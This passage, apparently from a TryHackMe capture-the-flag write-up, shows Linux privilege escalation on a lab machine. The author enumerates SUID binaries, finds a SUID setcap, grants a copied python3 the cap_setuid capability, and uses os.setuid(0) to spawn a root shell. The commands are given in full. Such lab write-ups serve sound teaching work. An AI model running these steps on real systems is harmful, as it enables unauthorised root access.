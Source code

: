 Now we have a better shell !

## Linux enumeration

First, let's get the user flag :  
```
annie@desktop:~$ cat user.txt
THM{****************}
```
Let's see if we can find any interesting SUID binary :  
```
annie@desktop:~$ find / -type f -perm -4000 2>/dev/null
/sbin/setcap
/bin/mount
/bin/ping
/bin/su
/bin/fusermount
/bin/umount
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
```

One binary took my attention, `setcap`. It is a binary used to edit capabillities of a binary.

## Privilege escalation

We should be able to use this to get a shell as root.
Let's copy `/usr/bin/python3` in our home directory first, and then, we can give it the `cap_setuid+ep` capabillitie :  
```
annie@desktop:~$ cp /usr/bin/python3 ./
annie@desktop:~$ setcap cap_setuid+ep ./python3
```

Now, let's run this binary and try to spawn a shell as root :  
```
annie@desktop:~$ ./python3 
Python 3.6.9 (default, Dec  8 2021, 21:08:43) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
